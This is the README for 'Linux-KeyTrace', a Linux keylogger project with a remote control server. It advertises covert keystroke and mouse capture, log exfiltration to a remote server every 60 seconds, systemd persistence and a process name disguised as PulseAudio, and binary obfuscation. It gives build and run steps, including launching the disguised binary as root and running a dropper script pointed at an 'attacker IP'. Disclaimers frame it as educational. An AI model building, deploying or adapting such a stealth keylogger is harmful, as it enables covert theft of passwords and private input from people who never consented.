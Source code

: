 
#  🔐 Linux-KeyTrace <sup><sub>v1.0</sub></sup>

**Linux-KeyTrace** is a Linux-based advanced keylogger built for cybersecurity research and awareness purposes. It captures keystrokes and mouse activity, logs them locally with timestamps, and periodically exfiltrates logs to a remote control server. It includes stealth features such as process renaming and service masquerading.

---

## ⚠️ Disclaimer

> This project is intended **strictly for educational and ethical security research purposes only**.  
> Do **not** use it on systems without **explicit authorization**.  
> The developer assumes **no responsibility** for misuse.

---

## 🔧 Features

- ✅ **Keyboard and Mouse logging** via `/dev/input` event interfaces    
- ✅ **Dynamic device discovery** (`/proc/bus/input/devices`)  
- ✅ **Remote control server** (Flask-based):  
  - Start, stop, cleanup commands  
  - Upload and download logs  
  - Serve payload binary  
- ✅ **Dropper script** to simulate infection  
- ✅ **Persistence** via systemd service (masqueraded as PulseAudio)  
- ✅ **Log exfiltration** every 60 seconds using `libcurl`  
- ✅ **Process disguise** (`pulseaudio`) and binary obfuscation  

---

## 📁 Project Structure

```
Linux-KeyTrace/
├── include/                # Header files
├── src/                    # Keylogger core logic
│   ├── device_finder.c     # Finds keyboard and mouse devices
│   ├── exfiltrator.c       # Sends logs to remote server, fetches commands
│   ├── keymap.c            # Maps keycodes to readable characters
│   ├── logger.c            # Captures and logs keystrokes/mouse events
│   └── main.c              # Main program: init, loop, cleanup
├── server/                 # Flask-based control server
│   ├── listener.py         # Control server backend
│   ├── control.txt         # Remote command file (run, stop, cleanup)
│   ├── ip.txt              # Stores IP used by client
│   └── received_logs/      # Incoming logs from clients
├── misc/                   # systemd service file
├── dropper.sh              # Simulates payload delivery
├── Makefile                # Build instructions
└── README.md               # Project info
```

---

## 🚀 Quick Setup

### 1. Build the Keylogger

```bash
make clean && make
```

---

### 2. Start the Control Server

```bash
cd server
source venv/bin/activate   # If using virtualenv
python3 listener.py
```

The server will start on `http://<your-ip>:8080`

---

### 3. Run the Keylogger (simulate infection)

**Terminal 1** (compile and run):

```bash
ps aux | grep pulseaudio
sudo kill <PID>            # Optional if testing
sudo ./pulseaudio          # Starts the keylogger
```

**Terminal 2** (server already running)

**Terminal 3** (simulate dropper execution):

```bash
./dropper.sh 127.0.0.1     # Replace with attacker IP
```

**Terminal 4** (view logs):

```bash
cd server/received_logs
tail -f keylog.txt
```

---

## 📌 Notes
 
- The keylogger requires **root permissions** to access `/dev/input/event*` devices.  
- Tested on modern Linux distributions with X11.  

---

## 🛡️ Legal Notice

This tool is designed for **red team training**, **ethical hacking labs**, or **controlled environments**.  
Unauthorized use **may violate privacy laws and computer misuse legislation** in your jurisdiction.

---

## 📫 Contact

For inquiries related to responsible usage, security research, or contributing to the project, please reach out via GitHub or your institutional contact channels.

## Author
Developed by Kunal Dharme.